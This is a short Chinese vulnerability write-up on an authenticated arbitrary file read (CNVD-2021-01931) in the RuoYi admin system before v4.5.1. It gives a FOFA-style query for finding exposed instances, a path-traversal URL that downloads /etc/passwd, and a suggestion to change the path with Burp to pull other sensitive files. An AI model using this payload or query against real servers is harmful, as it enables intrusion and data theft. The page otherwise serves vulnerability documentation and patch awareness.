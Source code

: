 # 若依管理系统 后台任意文件读取 CNVD-2021-01931

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

<a-checkbox checked>RuoYi < v4.5.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="若依-管理系统"</a-checkbox></br>

## 漏洞复现

登录后台后访问 Url

```shell
/common/download/resource?resource=/profile/../../../../etc/passwd
```

![img](../../../.vuepress/public/img/ruoyi-1.png)



访问后会下载文件 `/etc/passwd`



![img](../../../.vuepress/public/img/ruoyi-2.png)



可以使用Burp抓包改变 `/etc/passwd` 为其他文件路径获取敏感信息

![img](../../../.vuepress/public/img/ruoyi-4.png)



![img](../../../.vuepress/public/img/ruoyi-5.png)



在新版本的修复中添加了过滤

![img](../../../.vuepress/public/img/ruoyi-7.png)